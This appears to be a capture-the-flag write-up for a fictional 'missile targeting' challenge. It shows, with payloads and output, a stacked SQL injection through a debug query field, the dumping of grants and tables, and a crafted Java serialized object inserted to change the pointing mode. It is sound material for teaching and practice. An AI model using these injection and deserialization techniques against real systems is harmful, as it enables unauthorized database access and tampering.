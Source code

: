 ## Objective
Thwart Jack's evil plan by re-aiming his missile at the Sun.

## Solution

#### Enable the missile targetting system app and get the directory service URI

```
....
INFO: URI: maltcp://10.1.1.1:1025/missile-targeting-system-Directory
```
#### Connect to the Parameter Service


#### Injecting SQL Queries to find the correct injection point

```
;USER();
```

````
[ WARN] (ActionsExecutor-thread-2) Error: 1064-42000: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'USER()' at line 1
2023-12-28 16:17:33.951 esa.mo.nmf.apps.MissileTargetingSystemMCAdapter sqlDebug
WARNING: Debug action error: java.sql.SQLSyntaxErrorException: (conn=676) You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'USER()' at line 1
2023-12-28 16:17:33.957 esa.mo.nmf.apps.MissileTargetingSystemMCAdapter sqlDebug
WARNING: Debug action query: SELECT VERSION();USER();
````

```
;SELECT USER();
```
```
USER(): targeter@172.18.0.3 | 
```

#### Getting the rights on the tables
```SQL
;SHOW GRANTS;
```
```
Grants for targeter@%: GRANT USAGE ON *.* TO `targeter`@`%` IDENTIFIED BY PASSWORD '*41E2CFE844C8F1F375D5704992440920F11A11BA' | 
Grants for targeter@%: GRANT SELECT, INSERT ON `missile_targeting_system`.`satellite_query` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`messaging` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`target_coordinates` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode_to_str` TO `targeter`@`%` | 
```

#### Dumping tables data for juicy information
```SQL
;SELECT * FROM pointing_mode_to_str;
```
```
id: 1 | numerical_mode: 0 | str_mode: Earth Point Mode | str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth. | 
id: 2 | numerical_mode: 1 | str_mode: Sun Point Mode | str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. | 
```
#### Dumping the Java Serialized Data and the automation script
```SQL
;DESCRIBE satellite_query;
```
- Column ```jid``` probably is "Job ID" , ```objects``` field is the Java serialized payload and ```results``` is the output generated after executing the serialized payload 
```
COLUMN_NAME: jid | COLUMN_TYPE: int(11) | IS_NULLABLE: NO | COLUMN_KEY: PRI | COLUMN_DEFAULT: null | EXTRA: auto_increment | 
COLUMN_NAME: object | COLUMN_TYPE: blob | IS_NULLABLE: YES | COLUMN_KEY:  | COLUMN_DEFAULT: null | EXTRA:  | 
COLUMN_NAME: results | COLUMN_TYPE: text | IS_NULLABLE: YES | COLUMN_KEY:  | COLUMN_DEFAULT: null | EXTRA:  | 
```
```SQL
;SELECT * FROM satellite_query;
```
```Java
import java.io.IOException;
import java.nio.charset.StandardCharsets;
import java.nio.file.*;
import java.util.stream.Collectors;
import java.util.stream.Stream;
import java.sql.*;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;
import com.google.gson.Gson;

public class SatelliteQueryFileFolderUtility implements Serializable {
    private String pathOrStatement;
    private boolean isQuery;
    private boolean isUpdate;

    public SatelliteQueryFileFolderUtility(String pathOrStatement, boolean isQuery, boolean isUpdate) {
        this.pathOrStatement = pathOrStatement;
        this.isQuery = isQuery;
        this.isUpdate = isUpdate;
    }

    public String getResults(Connection connection) {
        if (isQuery && connection != null) {
            if (!isUpdate) {
                try (PreparedStatement selectStmt = connection.prepareStatement(pathOrStatement);
                    ResultSet rs = selectStmt.executeQuery()) {
                    List<HashMap<String, String>> rows = new ArrayList<>();
                    while(rs.next()) {
                        HashMap<String, String> row = new HashMap<>();
                        for (int i = 1; i <= rs.getMetaData().getColumnCount(); i++) {
                            String key = rs.getMetaData().getColumnName(i);
                            String value = rs.getString(i);
                            row.put(key, value);
                        }
                        rows.add(row);
                    }
                    Gson gson = new Gson();
                    String json = gson.toJson(rows);
                    return json;
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            } else {
                try (PreparedStatement pstmt = connection.prepareStatement(pathOrStatement)) {
                    pstmt.executeUpdate();
                    return "SQL Update completed.";
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            }
        } else {
            Path path = Paths.get(pathOrStatement);
            try {
                if (Files.notExists(path)) {
                    return "Path does not exist.";
                } else if (Files.isDirectory(path)) {
                    // Use try-with-resources to ensure the stream is closed after use
                    try (Stream<Path> walk = Files.walk(path, 1)) { // depth set to 1 to list only immediate contents
                        return walk.skip(1) // skip the directory itself
                                .map(p -> Files.isDirectory(p) ? "D: " + p.getFileName() : "F: " + p.getFileName())
                                .collect(Collectors.joining("\n"));
                    }
                } else {
                    // Assume it's a readable file
                    return new String(Files.readAllBytes(path), StandardCharsets.UTF_8);
                }
            } catch (IOException e) {
                return "Error reading path: " + e.toString();
            }
        }
    }

    public String getpathOrStatement() {
        return pathOrStatement;
    }
}
```
### Attack Methodology
- Create a query to update the table ```pointing_mode``` : ```UPDATE pointing_mode SET numerical_mode = 1 WHERE id = 1```
- Create a serialized object of the same class we found above and dump the serialized data in HEX format
- Insert the serialized data in the ```missile_targeting_system``` table

```Java
import java.io.*;
public class SatSerial{
    public static void main(String[] args) {
        SatelliteQueryFileFolderUtility utility = new SatelliteQueryFileFolderUtility("UPDATE pointing_mode SET numerical_mode = 1 WHERE id = 1", true, true);
        String filename = "serializedUtility.ser";
        serializeObject(utility, filename);
    }

    public static void serializeObject(SatelliteQueryFileFolderUtility object, String filename) {
        try (ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(filename))) {
            oos.writeObject(object);
            System.out.println("Object serialized successfully.");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

#### Compile and Generate the Serialized Payload
```
javac -classpath ".:/home/kali/Desktop/hh/gson-2.10.1.jar" SatSerial.java
java SatSerial
```

#### Generate the Hex Serialized Payload
```bash
└─$ xxd -p -c 1000000 serializedUtility.ser                                  

aced00057372001f536174656c6c697465517565727946696c65466f6c6465725574696c69747912d4f68d0eb392cb0200035a0007697351756572795a000869735570646174654c000f706174684f7253746174656d656e747400124c6a6176612f6c616e672f537472696e673b7870010174003855504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f6465203d2031205748455245206964203d2031
```

#### Send the new payload to the db
```SQL
;INSERT INTO satellite_query(jid,object) VALUES (6,UNHEX('aced00057372001f536174656c6c697465517565727946696c65466f6c6465725574696c69747912d4f68d0eb392cb0200035a0007697351756572795a000869735570646174654c000f706174684f7253746174656d656e747400124c6a6176612f6c616e672f537472696e673b7870010174003855504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f6465203d2031205748455245206964203d2031'));
```

#### Verify
- If everything is correct the challenge will be auto completed
- We can verify the value of ```numerical_mode``` in pointing_mode
  
```SQL
;SELECT * FROM pointing_mode;
```
```
id: 1 | numerical_mode: 1 | 
```
